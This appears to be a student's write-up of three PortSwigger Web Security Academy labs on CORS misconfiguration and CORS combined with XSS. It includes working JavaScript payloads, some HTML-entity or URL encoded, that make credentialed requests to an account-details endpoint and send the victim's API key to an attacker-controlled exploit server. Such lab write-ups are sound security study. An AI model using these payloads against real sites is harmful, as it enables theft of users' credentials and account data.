 ## First Lab
I did everything as I was supposed to do, yet I could not get the API of admin. Nevertheless, I will attach the things I have done and I honestly don't know why exploit server did not return admin api. 

The script that I used:
>      <script>
        var req = new XMLHttpRequest();
        req.open("get","0a5800e0044edab38085d064001d00b8.web-security-academy.net/accountDetails",true);
        
        req.onload = () => {
            window.location.href = "/malicious?key=" + req.responseText;
        }
        
        req.withCredentials = true;
        req.send();
    </script>
![](lab1rep.png)
![](basicOrigin.png)
## Second Lab
Second lab was almost the same as the first one, fortunately I got it working. The only difference was using an <iframe> tag and using the sandbox property to contain our malicious code in it, also we had to encode our script first, in order to avoid quotation collisions in a code. As a result, we got our api of admin, which we submitted in the home page of lab source page.
Source code: 
>                <iframe 
                    sandbox="allow-forms allow-scripts allow-top-navigation"      srcdoc="&#x3c;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x76;&#x61;&#x72;&#x20;&#x72;&#x65;&#x71;&#x20;&#x3d;&#x20;&#x6e;&#x65;&#x77;&#x20;&#x58;&#x4d;&#x4c;&#x48;&#x74;&#x74;&#x70;&#x52;&#x65;&#x71;&#x75;&#x65;&#x73;&#x74;&#x28;&#x29;&#x3b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x72;&#x65;&#x71;&#x2e;&#x6f;&#x70;&#x65;&#x6e;&#x28;&#x22;&#x67;&#x65;&#x74;&#x22;&#x2c;&#x22;&#x68;&#x74;&#x74;&#x70;&#x73;&#x3a;&#x2f;&#x2f;&#x30;&#x61;&#x62;&#x34;&#x30;&#x30;&#x39;&#x66;&#x30;&#x33;&#x65;&#x34;&#x33;&#x36;&#x61;&#x66;&#x38;&#x35;&#x64;&#x35;&#x32;&#x36;&#x34;&#x39;&#x30;&#x30;&#x37;&#x38;&#x30;&#x30;&#x62;&#x38;&#x2e;&#x77;&#x65;&#x62;&#x2d;&#x73;&#x65;&#x63;&#x75;&#x72;&#x69;&#x74;&#x79;&#x2d;&#x61;&#x63;&#x61;&#x64;&#x65;&#x6d;&#x79;&#x2e;&#x6e;&#x65;&#x74;&#x2f;&#x61;&#x63;&#x63;&#x6f;&#x75;&#x6e;&#x74;&#x44;&#x65;&#x74;&#x61;&#x69;&#x6c;&#x73;&#x22;&#x2c;&#x74;&#x72;&#x75;&#x65;&#x29;&#x3b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x72;&#x65;&#x71;&#x2e;&#x6f;&#x6e;&#x6c;&#x6f;&#x61;&#x64;&#x20;&#x3d;&#x20;&#x28;&#x29;&#x20;&#x3d;&#x3e;&#x20;&#x7b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x77;&#x69;&#x6e;&#x64;&#x6f;&#x77;&#x2e;&#x6c;&#x6f;&#x63;&#x61;&#x74;&#x69;&#x6f;&#x6e;&#x2e;&#x68;&#x72;&#x65;&#x66;&#x20;&#x3d;&#x20;&#x22;&#x2f;&#x6d;&#x61;&#x6c;&#x69;&#x63;&#x69;&#x6f;&#x75;&#x73;&#x3f;&#x6b;&#x65;&#x79;&#x3d;&#x22;&#x20;&#x2b;&#x20;&#x72;&#x65;&#x71;&#x2e;&#x72;&#x65;&#x73;&#x70;&#x6f;&#x6e;&#x73;&#x65;&#x54;&#x65;&#x78;&#x74;&#x3b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x7d;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x72;&#x65;&#x71;&#x2e;&#x77;&#x69;&#x74;&#x68;&#x43;&#x72;&#x65;&#x64;&#x65;&#x6e;&#x74;&#x69;&#x61;&#x6c;&#x73;&#x20;&#x3d;&#x20;&#x74;&#x72;&#x75;&#x65;&#x3b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x72;&#x65;&#x71;&#x2e;&#x73;&#x65;&#x6e;&#x64;&#x28;&#x29;&#x3b;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x2f;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3e;"
                    ></iframe>

![](lab2decoder.png)
![](lab2info.png)
![](lab2solved.png)

## Third Lab
We did find the Xss vulnerability through product id injection and found CORS vulnerability by trying to find the filtered origin source and we also have achieved that. However, when it came down to injecting the encoded code as we did in a second lab, we did not obtain any results and same as in a first lab work, I do not know why. 
Source code(we encoded the script code for cors vulnerability into xss code injection, cause it is url): 
>     <script>
        window.location = "http://stock.0ad700780427e2f6914a1ca600540017.web-security-academy.net/?productId=%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%20%20%20%20%76%61%72%20%72%65%71%20%3d%20%6e%65%77%20%58%4d%4c%48%74%74%70%52%65%71%75%65%73%74%28%29%3b%0a%20%20%20%20%20%20%20%20%72%65%71%2e%6f%70%65%6e%28%22%67%65%74%22%2c%22%68%74%74%70%73%3a%2f%2f%30%61%64%37%30%30%37%38%30%34%32%37%65%32%66%36%39%31%34%61%31%63%61%36%30%30%35%34%30%30%31%37%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%61%63%63%6f%75%6e%74%44%65%74%61%69%6c%73%22%2c%74%72%75%65%29%3b%0a%20%20%20%20%20%20%20%20%0a%20%20%20%20%20%20%20%20%72%65%71%2e%6f%6e%6c%6f%61%64%20%3d%20%28%29%20%3d%3e%20%7b%0a%20%20%20%20%20%20%20%20%20%20%20%20%77%69%6e%64%6f%77%2e%6c%6f%63%61%74%69%6f%6e%20%3d%20%22%20%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%30%61%64%30%30%30%65%64%30%34%65%36%65%32%66%63%39%31%64%38%31%62%34%36%30%31%30%38%30%30%35%36%2e%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%2e%6e%65%74%2f%65%78%70%6c%6f%69%74%3f%6b%65%79%3d%22%20%2b%20%72%65%71%2e%72%65%73%70%6f%6e%73%65%54%65%78%74%3b%0a%20%20%20%20%20%20%20%20%7d%0a%20%20%20%20%20%20%20%20%0a%20%20%20%20%20%20%20%20%72%65%71%2e%77%69%74%68%43%72%65%64%65%6e%74%69%61%6c%73%20%3d%20%74%72%75%65%3b%0a%20%20%20%20%20%20%20%20%72%65%71%2e%73%65%6e%64%28%29%3b%0a%20%20%20%20%3c%2f%73%63%72%69%70%74%3e&storeId=1"
    </script>
![](lab3cors.png)
![](lab3xss.png)
![](lab3not.png)
![](corsfinished.png)
